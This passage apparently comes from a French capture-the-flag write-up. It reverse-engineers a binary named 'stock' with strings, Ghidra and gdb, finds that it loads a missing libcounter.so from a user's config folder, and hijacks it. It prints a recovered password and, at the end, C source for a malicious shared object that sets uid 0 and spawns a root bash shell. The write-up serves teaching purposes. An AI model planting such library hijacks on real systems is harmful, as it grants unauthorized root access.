 `strings /usr/bin/stock`
```bash
PTE1                          
u+UH
Hakaize                      
St0ckM4nager   <--        
/root/.stock.csv     
```

L'application contient quelques fonctionnalités, donc l'une prénommée `XOR`.

Voici le code de la fonction dans Ghidra:
```c
iVar1 = checkAuth(password);
if (iVar1 == 0) {
   puts("Invalid password, please try again.");
   uVar2 = 1;
}
else {
   local_e8 = L'\x0c040967';
   local_e0 = 0xe2b4b551c121f0a;
   local_d8 = 0x908244a1d000705;
   local_d0 = 0x4f19043c0b0f0602;
   local_c8 = 0x151a;
   local_f0 = L'\x616b6148';
   XOR(&local_e8,0x22,&local_f0,8); <--
   local_28 = dlopen(&local_e8,1);
```
Lorsqu'on lance le binaire dans `gdb` (gdb ./stock) et que l'on place un breakpoint au niveau de la fonction `main` (b main), il est possible de voir au niveau des registres qu'il y a un `shared object library` du nom de `libcounter.so` qui est utilisé. 

> Une `shared object library` est la même chose qu'une `DLL` sous Windows. Ces dernières contiennent des fonctions/méthodes qui peuvent être utilisées par divers programmes lorsqu'elles sont référencées. Ce sont des librairies. 

```c
00:0000│ rsp 0x7fffffffe250 —▸ 0x7fffffffe328 ◂— 0x500000000
01:0008│     0x7fffffffe258 ◂— 0x12f9
02:0010│     0x7fffffffe260 —▸ 0x7ffff7ffdab0 (_rtld_global+2736) —▸ 0x7ffff7fcb000 ◂— 0x3010102464c457f
03:0018│     0x7fffffffe268 ◂— 0x657a69616b6148 /* 'Hakaize' */
04:0020│     0x7fffffffe270 ◂— '/home/rektsu/.config/libcounter.so'
05:0028│     0x7fffffffe278 ◂— 'ktsu/.config/libcounter.so'
06:0030│     0x7fffffffe280 ◂— 'nfig/libcounter.so'
07:0038│     0x7fffffffe288 ◂— 'counter.so'
```

Lorsqu'on se rend dans le répertoire `/home/rektsu/.config/`, il est possible de constater que la librairie est absente. Afin d'exploiter le programme, il suffit de créer un `shared object library (libcounter.so)` malicieux et de le placer a l'emplacement que le programme s'attend. 

Voici le contenu du fichier:
```c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

void _init() {
    setuid(0);
    setgid(0);
    system("/bin/bash");
}
```
